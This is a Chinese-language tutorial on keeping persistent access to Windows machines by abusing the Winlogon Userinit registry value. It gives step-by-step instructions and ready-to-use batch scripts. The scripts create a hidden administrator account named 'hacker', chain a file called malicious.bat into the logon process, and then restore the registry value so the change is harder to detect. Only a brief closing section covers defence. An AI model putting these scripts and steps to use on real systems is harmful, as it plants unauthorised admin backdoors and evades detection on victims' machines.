 利用Winlogon用户登录初始化进行权限维持是一种高级技术，通常用于在用户登录时执行特定的恶意操作，从而在系统中保持持久访问权限。Winlogon是Windows登录管理器，负责管理用户登录和退出时的操作。可以通过修改注册表来在用户登录时执行自定义的脚本或程序。以下是如何利用Winlogon用户登录初始化进行权限维持的详细步骤：

##### 步骤：

1. **创建恶意脚本或程序：**
   - 首先，编写一个脚本或程序，该脚本将在用户登录时提供持久访问权限或执行恶意行为。例如，一个简单的批处理脚本可以是：
     ```bat
     @echo off
     net user hacker MyPassword123 /add
     net localgroup administrators hacker /add
     ```

2. **将脚本保存到系统目录：**
   - 将这个脚本保存到一个不会轻易被删除或修改的目录中，例如 `C:\Windows\System32\`。
   - 假设脚本名为 `malicious.bat`

3. **修改注册表：**
   
   - 打开“注册表编辑器”（按 `Win + R`，输入 `regedit`，然后按回车）。
   - 导航到以下路径：
     ```
     HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Winlogon
     ```
   - 找到 `Userinit` 键。默认值通常为：
     ```
     C:\Windows\system32\userinit.exe,
     ```
   - 将 `Userinit` 键的值修改为你的脚本路径，确保保留原来的 `userinit.exe`，这样系统还能正常工作。例如：
     ```
     C:\Windows\System32\userinit.exe,C:\Windows\System32\malicious.bat
     ```
   
4. **确认修改：**
   - 确认 `Userinit` 键的值已正确修改，可以关闭注册表编辑器。

##### 恢复默认设置：

为了确保系统能够正常运行且不被检测，你需要一种方式来恢复 `Userinit` 键的默认值。可以通过另一个脚本在执行恶意操作后恢复默认设置：
```bat
@echo off
rem 执行恶意操作
net user hacker MyPassword123 /add
net localgroup administrators hacker /add

rem 恢复原始设置
reg add "HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Winlogon" /v Userinit /t REG_SZ /d "C:\Windows\system32\userinit.exe," /f
```

##### 安全防范：

为了防止此类攻击，管理员应：
1. **监控注册表变化：** 使用安全软件或脚本监控注册表的关键路径，例如 `HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Winlogon`。
2. **限制注册表访问权限：** 限制普通用户对关键注册表路径的写入权限。
3. **定期审计：** 定期检查系统关键路径的注册表设置和可疑的启动项。
